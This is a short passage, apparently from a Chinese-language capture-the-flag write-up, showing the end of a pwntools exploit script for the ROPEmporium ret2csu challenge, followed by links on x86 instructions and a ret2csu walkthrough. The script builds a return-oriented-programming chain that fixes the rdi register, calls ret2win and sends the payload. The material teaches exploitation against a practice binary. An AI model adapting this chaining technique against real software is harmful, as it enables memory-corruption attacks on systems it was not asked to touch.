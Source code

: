 ```
    payload += p64(0x0) # r15

    # 3) fix `rdi` since the instruction `mov edi, r13d` in the first ROP
    #    does not fill the `rdi` register
    payload += pop_rdi
    payload += p64(0xdeadbeefdeadbeef)

    # 4) exploit
    payload += ret2win

    p.recvuntil(b'>')
    p.sendline(payload)
    p.interactive()

    return


if __name__ == '__main__':
    exploit()
```

## 参考

- [XLAT/XLATB — Table Look-up Translation](https://www.felixcloutier.com/x86/xlat:xlatb)
- [BEXTR — Bit Field Extract](https://www.felixcloutier.com/x86/bextr)
- [STOS/STOSB/STOSW/STOSD/STOSQ — Store String](https://www.felixcloutier.com/x86/stos:stosb:stosw:stosd:stosq)
- [ROPEmporium ret2csu](https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html)
